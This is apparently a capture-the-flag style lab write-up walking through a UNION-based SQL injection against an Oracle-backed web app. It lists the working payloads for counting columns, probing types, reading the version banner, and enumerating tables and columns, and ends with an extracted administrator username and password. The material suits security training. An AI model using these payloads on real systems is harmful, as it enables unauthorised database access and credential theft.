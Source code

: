 
Lab: SQL injection attack, listing the database contents on Oracle

1. Find the number of columns.

' order by 1--
> 200

' order by 2--
> 200

' order by 3--
> 500

2. Find the data types of the columns.

' UNION SELECT 'a', 'a' from all_tables--

Both data types are strings.

3. Find the database version (if not previously known).

' UNION SELECT banner, NULL FROM v$version-- 

Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit ProductionTNS for Linux: Version 11.2.0.2.0 - Production

4. Find the table names of the Oracle database.

' UNION SELECT table_name, NULL FROM all_tables--

There are two tables that look interesting, USER$ and USERS_XTICQS

5. Find the column names of table USERS_XTICQS.

' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_XTICQS'--


The two table names were found:
USERNAME_ZWTVSI
PASSWORD_OWZJKM

6. Query the username and password columns that were found.

' UNION SELECT USERNAME_ZWTVSI, PASSWORD_OWZJKM FROM USERS_XTICQS--

administrator
b5ov8q0drx9gdaj3ermi

7. Lastly, login with those credentials to complete the lab.
